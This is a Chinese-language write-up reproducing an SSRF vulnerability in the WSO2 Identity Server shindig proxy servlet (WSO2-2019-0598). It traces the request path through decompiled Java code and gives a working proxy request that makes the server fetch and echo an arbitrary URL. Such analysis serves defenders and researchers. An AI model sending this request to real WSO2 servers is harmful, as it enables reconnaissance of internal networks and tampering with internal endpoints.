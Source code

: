 # WSO2 proxy SSRF漏洞 WSO2-2019-0598

## 漏洞描述

滥用 shindig Web 应用程序的 UI 小工具加载功能可以利用此漏洞。攻击者可以更改请求中的特定 URL，从而导致服务器向更改后的 URL 发起 GET 请求。通过利用此漏洞，攻击者可以使用服务器执行任意外部服务交互。这可以特别用于与内部网络的节点进行交互，否则这些节点会被网络规则隐藏在外部。攻击者可以利用它来追踪和侦察网络，除此之外，如果有内部端点对 GET 请求进行状态更改操作，那么就有可能很好地破坏它们的完整性。根据端点实施的保护级别，此漏洞的影响可能会有所不同。

## 漏洞影响

```
WSO2 Identity Server 5.2.0 , 5.3.0 , 5.4.0 , 5.4.1 , 5.5.0 , 5.6.0 , 5.7.0
WSO2 IS as Key Manager 5.3.0 , 5.5.0 , 5.6.0 , 5.7.0
```

## 环境搭建

https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip

## 漏洞复现

根据官方描述，漏洞造成的原因主要是 shindig Web 应用程序的 UI 小工具的加载功能, [WSO2-2019-0598](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2019-0598)

![](images/202205241706233.png)

下载源码启动环境，在IDEA中调试

![](images/202205241706823.png)

![](images/202205241707257.png)

根据官方描述，在全局搜索 shindig 相关代码

![](images/202205241707162.png)

打下断点，看一下访问 `/shindig/gadgets/js` 路径时代码的调用流程

![](images/202205241707337.png)

可以看到当访问此路径时，调用了对应的 Servlet 下的 doGet方法 来处理`(org.apache.shindig.gadgets.servlet.JsServlet.doGet(JsServlet.java:86)`

![](images/202205241707039.png)

我们可以在文件 `conf/shindig/web.xml 找到对应的调用方法`

![](images/202205241707053.png)

看到这我们注意到 `org.apache.shindig.gadgets.servlet.MakeRequestServlet` 似乎与 Jira未授权SSRF漏洞(CVE-2019-8451) 中存在的漏洞点十分的相似

![](images/202205241707509.png)

但断点调试过程中，却发现这个点是利用失败的

![](images/202205241707755.png)

![](images/202205241708844.png)

只好去看一下其他的Servele , 最后我们注意到 ProxyServlet

![](images/202205241708016.png)

发送请求包，打断点看一下处理流程

```
GET /shindig/gadgets/proxy?container=default&url=https://www.baidu.com HTTP/1.1
Host: localhost:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

通过 `org.apache.shindig.gadgets.servlet.ProxyServlet` 下的 doGet方法接收参数， 传入 `processRequest`

中

```
private void processRequest(HttpServletRequest request, HttpServletResponse servletResponse) throws IOException {
        if (request.getHeader("If-Modified-Since") != null) {
            servletResponse.setStatus(304);
        } else {
            Uri reqUri = (new UriBuilder(request)).toUri();

            HttpResponse response;
            try {
                ProxyUri proxyUri = this.proxyUriManager.process(reqUri);
                SecurityToken st = AuthInfoUtil.getSecurityTokenFromRequest(request);
                proxyUri.setSecurityToken(st);
                proxyUri.setUserAgent(request.getHeader("User-Agent"));
                if (proxyUri.getGadget() == null && st != null && !st.isAnonymous()) {
                    proxyUri.setGadget(st.getAppUrl());
                }

                AuthType authType = proxyUri.getAuthType();
                if (AuthType.OAUTH.equals(authType)) {
                    proxyUri.setOAuthArguments(new OAuthArguments(AuthType.OAUTH, request));
                } else if (AuthType.OAUTH2.equals(authType)) {
                    proxyUri.setOAuth2Arguments(new OAuth2Arguments(request));
                }

                String host = request.getHeader("Host");
                if (!this.lockedDomainService.isSafeForOpenProxy(host)) {
                    Uri resourceUri = proxyUri.getResource();
                    String msg = "Embed request for url " + (resourceUri != null ? resourceUri.toString() : "n/a") + " made to wrong domain " + host;
                    if (LOG.isLoggable(Level.INFO)) {
                        LOG.logp(Level.INFO, classname, "processRequest", "embededImgWrongDomain", new Object[]{resourceUri != null ? resourceUri.toString() : "n/a", host});
                    }

                    throw new GadgetException(Code.INVALID_PARAMETER, msg, 400);
                }

                if ("POST".equalsIgnoreCase(request.getMethod())) {
                    StringBuffer buffer = this.getPOSTContent(request);
                    response = this.proxyHandler.fetch(proxyUri, buffer.toString());
                } else {
                    response = this.proxyHandler.fetch(proxyUri);
                }
            } catch (GadgetException var11) {
                response = ServletUtil.errorResponse(new GadgetException(var11.getCode(), var11.getMessage(), 400));
            }

            ServletUtil.copyToServletResponseAndOverrideCacheHeaders(response, servletResponse);
        }
    }
```

向下跟进到`org.apache.shindig.gadgets.servlet.ProxyHandler`

![](images/202205241708606.png)

`org.apache.shindig.gadgets.servlet.ProxyHandler.fatch`

![](images/202205241709066.png)

接着向下看到 org.apache.shindig.gadgets.servlet.ProxyHandler 下的 `buildHttpRequest` 方法创建Http请求， 而目标就是我们刚刚传入的Url参数

```
 private HttpRequest buildHttpRequest(ProxyUri uriCtx, Uri tgt, @Nullable String postBody) throws GadgetException, IOException {
        ServletUtil.validateUrl(tgt);
        HttpRequest req = uriCtx.makeHttpRequest(tgt);
        req.setRewriteMimeType(uriCtx.getRewriteMimeType());
        if (postBody != null) {
            req.setMethod("POST");
            req.setPostBody(new ByteArrayInputStream(postBody.getBytes()));
        }

        if (req.getHeader("User-Agent") == null) {
            String userAgent = uriCtx.getUserAgent();
            if (userAgent != null) {
                req.setHeader("User-Agent", userAgent);
            }
        }

        return req;
    }
```

![](images/202205241709229.png)

![](images/202205241709438.png)

最后回显至页面中, 造成存在回显的SSRF

![](images/202205241709588.png)

![](images/202205241709610.png)